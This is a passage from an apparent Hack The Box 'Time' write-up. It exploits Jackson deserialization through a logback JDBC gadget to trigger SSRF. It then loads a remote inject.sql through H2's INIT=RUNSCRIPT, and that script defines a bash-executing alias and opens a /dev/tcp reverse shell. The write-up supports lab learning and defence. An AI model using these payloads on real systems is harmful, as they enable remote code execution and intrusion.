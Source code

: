 ![JDBC - SSRF (Locally)](assets/img/posts/time-htb/ssrf-jdbc.png)


```bash
jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:tcp://10.10.14.9:9000/ssrf/\"}]"
```

The file **test.rb** creates a vulnerable environment for us, we can confirm that our JSON exploit works!

Our goal is not just to establish TCP connections between the vulnerable machine and our machine but to gain code execution, for that we can load our own SQL file by exploiting this SSRF and when that SQL file is executed by H2 database, the system commands will be executed.

---

### Reverse Shell as pericles <a name="revshell">

We can use the following JSON object to load our SQL file and gain code execution

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://LHOST:LPORT/inject.sql'"}]"
```

We can see that we've specified `INIT=RUNSCRIPT` which will initiate a JDBC connection and load SQL file from our controlled host. The contents of inject.sql should be as follows.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/LHOST/LPORT 0>&1')
```
